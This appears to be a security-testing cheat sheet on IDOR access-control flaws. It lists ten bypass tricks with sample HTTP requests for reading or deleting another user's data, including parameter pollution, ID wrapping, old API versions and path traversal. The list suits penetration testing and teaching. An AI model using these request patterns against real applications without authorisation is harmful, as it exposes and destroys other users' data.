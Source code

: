 # IDOR
## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

## 1. Bypassing Object Level Authorization:
```
Add parameters onto the endpoints for example, if there was
GET /api/v1/getuser                 >>>      GET /api/v1/getuser?id=1234
GET /api_v1/messages --> 401        >>>      GET /api_v1/messages?user_id=victim_uuid --> 200
vs 

```
## 2. HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]

JSON 
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

## 3. Add .json to the endpoint
```
GET /v2/GetData/1234  >>> GET /v2/GetData/1234.json
[...]
```

## 4. Test on outdated API Versions
```
POST /v2/GetData                 POST /v1/GetData
[...]                  >>>>      [...]
id=123                           id=123
```
## 5. Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## 6. Wrap the ID with a JSON object
```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

## 7. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
dmljdGltQG1haWwuY29t => victim@mail.com
```
## 8. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql            --> 401 Unauthorized
GET /graphql.php?query= --> 200 OK
```

## 9. MFLAC (Missing Function Level Access Control)
```
GET /admin/profile --> 401 Unauthorized
GET /ADMIN/profile --> 200 OK
```
## 10. Path Traversal:
    POST /users/delete/VICTIM_ID --> 403 Forbidden
    POST /users/delete/MY_ID/../VICTIM_ID --> 200 OK


Source: https://www.notion.so/IDOR-Attack-vectors-exploitation-bypasses-and-chains-0b73eb18e9b640ce8c337af83f397a6b

